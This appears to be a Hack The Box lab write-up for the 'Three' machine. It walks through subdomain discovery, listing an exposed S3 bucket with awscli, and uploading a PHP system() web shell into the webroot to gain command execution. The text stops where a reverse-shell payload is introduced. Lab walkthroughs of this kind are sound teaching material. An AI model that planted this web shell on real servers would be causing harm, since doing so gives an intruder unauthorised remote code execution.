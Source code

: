 # HTB(Three-Linux) 

![](/Assets/HTB/THREE/assets/three.jpg) 

# Summary 

* in this Box will new some steps in *cloud pentesting* and will know about *Amazon S3* and how we can know about its contents and how make our machine contact easily with it. 

# NMAP
![](/Assets/HTB/THREE/assets/nmap.png)

# Ports 
we find port 22 for ssh connection and port 80 for http service will discover it , let's check it by browser . 



![](/Assets/HTB/THREE/assets/web.png)



By checking the web using web browser we find the static page and will check the **subdomains** for this host by using **gobuster** as follow .

**NOTE** : add ip of machine in **/etc/hosts** 

like that  echo **"10.129.10.31 thetoppers.htb" | sudo tee -a /etc/hosts**

![](/Assets/HTB/THREE/assets/gobuster.png)

we found subdomain will be foucs with it **s3.thetoppers.htb** by search on google about it , will find info about **amazon s3 cloud storage**

![](/Assets/HTB/THREE/assets/s3amazon.png)

_**NOTE**_  we should add the subdomain **s3.thetopper.htb** in /etc/hosts like that 


![](/Assets/HTB/THREE/assets/response.png)

The webpage only contains the perivous JSON.

We can interact with this S3 bucket with the aid of the **awscli** utility. It can be installed on Linux using the command **apt install awscli** 

First, we need to configure it using the following command. **aws configure**

![](/Assets/HTB/THREE/assets/ls.png)

We can list all of the S3 buckets hosted by the server by using the ls command.

**aws --endpoint=http://s3.thetoppers.htb s3 ls**

We see the files index.php , .htaccess and a directory called images in the specified bucket. It seems like
this is the webroot of the website running on port 80 . So the Apache server is using this S3 bucket as
storage.

**awscli** has got another feature that allows us to copy files to a remote bucket. We already know that the
website is using PHP. Thus, we can try uploading a PHP shell file to the S3 bucket and since it's uploaded to
the webroot directory we can visit this webpage in the browser, which will, in turn, execute this file and we
will achieve remote code execution.


_We can use the following PHP one-liner which uses the system() function which takes the URL parameter
cmd as an input and executes it as a system command

**<?php system($_GET["cmd"]); ?>**

then make file php 

**echo '<?php system($_GET["cmd"]); ?>' > shell.php**

Then, we can upload this PHP shell to the thetoppers.htb S3 bucket using the following command


**aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb**

![](/Assets/HTB/THREE/assets/result.png)

_We can confirm that our shell is uploaded by navigating to http://thetoppers.htb/shell.php. Let us try
executing the OS command id using the URL parameter **cmd**_

![](/Assets/HTB/THREE/assets/id.png)

_The response from the server contains the output of the OS command id , which verified that we have code
execution on the box. Thus, let us now try to obtain a reverse shell.
Through a reverse shell, we will trigger the remote host to connect back to our local machine's IP address on
the specified listening port. We can obtain the tun0 IP address of our local machine using the following
command._


_Let's get a reverse shell by creating a new file shell.sh containing the following bash reverse shell payload
which will connect back to our local machine on port 1337 .























